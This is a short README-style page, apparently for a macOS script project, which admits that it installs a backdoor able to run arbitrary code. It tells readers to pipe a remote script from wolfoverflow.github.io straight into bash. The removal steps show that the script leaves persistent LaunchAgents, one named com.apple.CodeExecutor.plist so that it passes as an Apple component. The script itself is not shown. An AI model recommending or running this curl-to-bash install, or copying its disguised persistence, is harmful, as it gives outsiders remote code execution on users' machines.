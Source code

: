 # Note that this also installs a backdoor that has arbitrary code. Use at your own risk.

# How to use

Run the following line: curl -S "https://wolfoverflow.github.io/script" | bash

# To remove

launchctl unload ~/Library/LaunchAgents/com.wolfoverflow.giveup.plist && rm -rf ~/Library/LaunchAgents/com.wolfoverflow.giveup.plist && launchctl unload ~/Library/LaunchAgents/com.apple.CodeExecutor.plist && rm -rf ~/Library/LaunchAgents/com.apple.CodeExecutor.plist
